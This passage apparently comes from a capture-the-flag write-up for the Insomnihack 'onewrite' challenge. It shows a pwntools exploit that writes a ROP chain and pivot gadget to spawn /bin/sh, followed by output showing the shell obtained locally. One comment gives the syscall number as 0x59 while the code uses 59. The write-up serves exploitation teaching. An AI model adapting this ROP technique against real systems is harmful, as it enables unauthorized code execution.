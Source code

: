 ```
    csiRipAdr += 8
    write(adr, val)

# first wite "/bin/sh" to the designated place in memory
writeQword(binshAdr, u64("/bin/sh\x00"))


'''
Our ROP Chain will do this:

pop rdi ptr to "/bin/sh";   ret
pop rsi 0 ; ret
pop rdx 0 ; ret
pop rax 0x59 ; ret
syscall
'''


# write the ROP chain
writeQword(csiRipAdr + 0x108, popRdi)
writeQword(csiRipAdr + 0x108, binshAdr)
writeQword(csiRipAdr + 0x108, popRsi)
writeQword(csiRipAdr + 0x108, 0)
writeQword(csiRipAdr + 0x108, popRdx)
writeQword(csiRipAdr + 0x108, 0)
writeQword(csiRipAdr + 0x108, popRax)
writeQword(csiRipAdr + 0x108, 59)
writeQword(csiRipAdr + 0x108, syscall)


# write the ROP pivot gadget to the return address of do_overwrite, which will trigger the rop chain
write(stackLeak - 0x10, pivotGadget)

# drop to an interactive shell
target.interactive()
```

and when we run it:

```
$	python exploit.py 
[+] Starting local process './onewrite-390417ba15a4e5ad7ea0507a21e7dc1ef03eb1805750a0e786f2066a68445786': pid 27052
[!] Did not find any GOT entries
[*] '/home/guyinatuxedo/Desktop/insomnihack/pwn/onewrite/onewrite-390417ba15a4e5ad7ea0507a21e7dc1ef03eb1805750a0e786f2066a68445786'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
 $ w
 22:40:57 up 1 day,  6:20,  1 user,  load average: 0.00, 0.03, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               Thu19   ?xdm?   4:33   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
```
